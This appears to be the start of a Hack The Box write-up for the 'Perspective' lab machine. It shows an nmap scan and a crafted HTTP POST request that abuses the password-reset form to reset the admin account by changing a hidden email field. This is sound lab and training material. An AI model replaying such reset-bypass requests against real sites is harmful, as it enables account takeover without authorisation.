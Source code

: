 # Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/perspective 10.10.11.151

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 d67f3fd42215ce64f3c80079bff6f8f8 (RSA)
|   256 08c6d4f398840ffd4bede3a625bde770 (ECDSA)
|_  256 32816a8b4df96109ffd3996ce73fa3ac (ED25519)
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Port 80
redirect -> http://perspective.htb/

Creating an account, and checking how password reset works, shows that you just need the security questions.

You can bypass the user name check by changing it when entering the security questions.
```
POST /Account/Forgot HTTP/1.1
Host: perspective.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 356
Origin: http://perspective.htb
Connection: close
Referer: http://perspective.htb/Account/Forgot
Upgrade-Insecure-Requests: 1

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwUKMTE4MzYyMzczM2RkYNV%2BZt7yOSGiDlCo7fFB5yLGtBQ%3D&__VIEWSTATEGENERATOR=B97FD74E&ctl00%24MainContent%24EmailHidden=admin%40perspective.htb&ctl00%24MainContent%24QuestionResponse1=&ctl00%24MainContent%24QuestionResponse2=&ctl00%24MainContent%24QuestionResponse3=&ctl00%24MainContent%24ctl01=Initiate+Reset
```